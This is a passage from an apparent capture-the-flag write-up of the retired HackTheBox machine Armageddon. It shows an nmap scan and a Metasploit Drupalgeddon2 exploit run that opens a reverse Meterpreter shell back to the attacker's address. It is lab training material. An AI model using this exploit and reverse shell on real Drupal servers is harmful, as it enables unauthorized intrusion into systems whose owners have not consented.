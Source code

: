 Title:HTB: Armageddon
Date: XM-07-2021 19:20
category:security
tags:security, boot2root, HTB, linux, Drupalgeddon
meta:security, boot2root, HTB, linux, Drupalgeddon

<img class="align-left" src="/media/2021.xx/armageddon_card.png" alt="armageddon Card" width="262">

This box is a writeup about a retired HacktheBox machine:
[Armageddon](https://www.hackthebox.eu/home/machines/profile/323) publish on
Mars 27, 2021 by
[Bertolis](https://www.hackthebox.eu/home/users/profile/27897).
This box is rated as an easy machine. It implies the drupalgeddon vulnerability
and some permissive `sudo` permissions.



# Foothold

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are
open.

    :::txt
    # Nmap 7.91 scan initiated Sat May 15 04:16:52 2021 as: nmap -p- -oN nmap -sSV 10.129.48.89
    Nmap scan report for 10.129.48.89
    Host is up (0.015s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sat May 15 04:17:15 2021 -- 1 IP address (1 host up) scanned in 22.79 seconds

The name and the blog on the port 80 directly made me think about drupalgeddon.
We fireup metasloit.

    :::text
    msf6 exploit(unix/webapp/drupal_drupalgeddon2) > use exploit/unix/webapp/drupal_drupalgeddon2

    msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

    [*] Started reverse TCP handler on 10.10.14.17:4444
    [*] Executing automatic check (disable AutoCheck to override)
    [+] The target is vulnerable.
    [*] Sending stage (39282 bytes) to 10.129.48.89
    [*] Meterpreter session 3 opened (10.10.14.17:4444 -> 10.129.48.89:38608) at 2021-04-25 04:52:28 -0400
